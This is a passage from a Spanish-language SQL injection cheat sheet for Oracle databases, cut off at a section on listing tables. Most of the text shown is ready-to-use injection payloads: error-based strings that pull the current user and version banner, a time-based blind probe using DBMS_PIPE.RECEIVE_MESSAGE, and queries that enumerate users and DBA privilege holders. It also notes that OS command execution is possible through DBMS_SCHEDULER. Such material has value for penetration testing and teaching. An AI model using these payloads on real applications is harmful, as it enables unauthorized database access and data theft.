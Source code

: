 Esto te da acceso completo incluso si cierran tu conexión inicial.


## Oeacle

### **1. Diferencias Clave en Oracle**

-   **No soporta `UNION SELECT` de la misma manera que MySQL o MSSQL.**
-   **No tiene `pg_sleep()` ni `WAITFOR DELAY`, pero usa `DBMS_PIPE.RECEIVE_MESSAGE`.**
-   **Las tablas `ALL_USERS`, `ALL_TABLES` y `ALL_TAB_COLUMNS` sirven para enumeración.**
-   **Ejecutar comandos en el sistema es más difícil, pero posible con `DBMS_SCHEDULER`.**

---

### **2. Enumeración de la Base de Datos**

Si puedes hacer consultas, pero no ves la salida directamente, puedes probar error-based o time-based.

#### **a) Error-Based SQLi**

Forzamos un error para extraer información:

```
' || (SELECT 1/0 FROM dual) || '  
```
>Si la aplicación devuelve el error, podemos filtrar información poco a poco.

Para extraer el nombre de usuario actual:

```
' || (SELECT USER FROM dual) || '  
```
Para obtener la versión de Oracle:
```
' || (SELECT banner FROM v$version WHERE rownum = 1) || '  
```
>Si devuelve errores con datos, podemos seguir extrayendo más información.

#### **b) Time-Based Blind SQLi**

Oracle no tiene `pg_sleep()` ni `WAITFOR DELAY`, pero se puede usar `DBMS_PIPE.RECEIVE_MESSAGE`:

```
' || DBMS_PIPE.RECEIVE_MESSAGE('X',5) || '  
```
Si la aplicación se retrasa 5 segundos, la inyección funciona.

---
### **3. Explotación Avanzada en Oracle**

#### **a) Listar Usuarios de la Base de Datos**
```
'SELECT username FROM all_users;--
```
Para ver los usuarios con privilegios:
```
'SELECT grantee FROM dba_sys_privs WHERE privilege = 'DBA';--
```
#### **b) Listar Tablas y Columnas**

